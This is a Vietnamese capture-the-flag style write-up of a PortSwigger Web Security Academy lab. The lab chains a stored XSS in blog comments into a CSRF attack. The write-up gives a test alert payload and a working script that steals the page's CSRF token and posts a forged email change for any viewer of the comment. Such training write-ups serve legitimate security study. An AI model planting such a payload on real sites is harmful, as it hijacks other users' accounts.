 ### Web Academy PortSwigger
* Lab: [Lab: Exploiting XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)
* Descript: This lab contains a stored XSS vulnerability in the blog comments function
* To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
* Solved and Writeup by Me ^^!
* ![Ảnh chụp màn hình 2023-11-24 110205](https://hackmd.io/_uploads/HyXlGo64T.png)

Đọc mô tả bên trên ,bài lab có lỗ hổng stored-XSS trong phần comments, lỗ hổng khá nghiêm trọng ảnh hưởng đến nhiều người dùng. 
Để giải quyết bài lab, thực hiện khai thác XSS vuln để thực hiện tấn công Cross-Site Request Forgery(CSRF) để thay đổi email người dùng.

Truy cập lab ,ta có giao diện quen thuộc sau: 

![Ảnh chụp màn hình 2023-11-24 112033](https://hackmd.io/_uploads/rk9bUsTNp.png)

---

![Ảnh chụp màn hình 2023-11-24 113221](https://hackmd.io/_uploads/S1TPDoTNT.png)
*Hình ảnh do hạn chế kích thước =<<*

---
Truy cập vào bài post bất kỳ ,thử test XSS trong phần comment: `<script>alert(":((")</script>` 

![Ảnh chụp màn hình 2023-11-24 112553](https://hackmd.io/_uploads/HJARdiaET.png)
Xem source page:
![Ảnh chụp màn hình 2023-11-24 114035](https://hackmd.io/_uploads/SJBwYjp4a.png)


Ta xác nhận lab tồn tại stored-XSS.
Trang web có xác thực csrf,  tiến hành xây dựng một đoạn script lấy csrf nhằm thực hiện cuộc tấn công CSRF:  

```
<script>
fetch('/my-account')                       (1)
  .then(response => response.text())
  .then(responseText => {
    var csrfValue = responseText.match(/name="csrf" value="(\w+)"/)[1];

    fetch('/my-account/change-email', {    (2)
    method: 'POST',
    body: 'csrf=' + csrfValue + '&email=ahihihihi@gmail.com',
    });
  })
</script>
``` 

---
Giải thích từng phần đoạn script trên: 

**(1)** Ta sử dụng fetch() trong Javascript để thực hiện GET request đến `/my-account` 
* Sử dụng phương thức `then(response=>response.text())`  để chuyển đổi response từ fetch() sang dạng text 
* Xử lý kết quả từ `response.text` , sử dụng `match()` cùng với biểu thức chính quy để tìm kiếm `csrf` trên trang , gán giá trị cho biến `csrfValue`  

**(2)** Sau khi thu được giá trị của `csrf token` , 
ta sử dụng `fetch()` để tạo `POST` request, giả mạo yêu cầu đổi email với `token csrf` vừa thu được:
* Tạo `POST` request tới page `/my-account/change-email`:  
* Gửi nội dung xác thực với `crsf token` trong thuộc tính `body` 

Paste  đoạn script trên vào một comment post bất kỳ và Enter!!

![Ảnh chụp màn hình 2023-11-24 121534](https://hackmd.io/_uploads/B1hbX3pN6.png)

---
Thông báo hiện ra , Lab đã được giải quyết!
![Ảnh chụp màn hình 2023-11-24 121610](https://hackmd.io/_uploads/S1CGmh6Ep.png)

Nhấn `Back to blog` để  thực thi script , sau đó vào `My account` để kiểm tra : 

![Ảnh chụp màn hình 2023-11-24 122427](https://hackmd.io/_uploads/BkEQ4n6Np.png)

Có lỗi về tên :<< , Email chưa được  thay đổi (vẫn là email mặc định) , ta thực hiện lại script với `email = ahihihihi123@gmail.com`

![Ảnh chụp màn hình 2023-11-24 123120](https://hackmd.io/_uploads/HywFB3TET.png)

Yeahhhh! Email đã đổi thành `ahihihihi123@gmail.com`

*Note: Có thể xử dụng `XMLHttpRequest()` (ES3) để thay thế , nhưng dùng `fetch()` hiện đại hơn (ES6) , code sẽ dễ nhìn ,gọn hơn!*
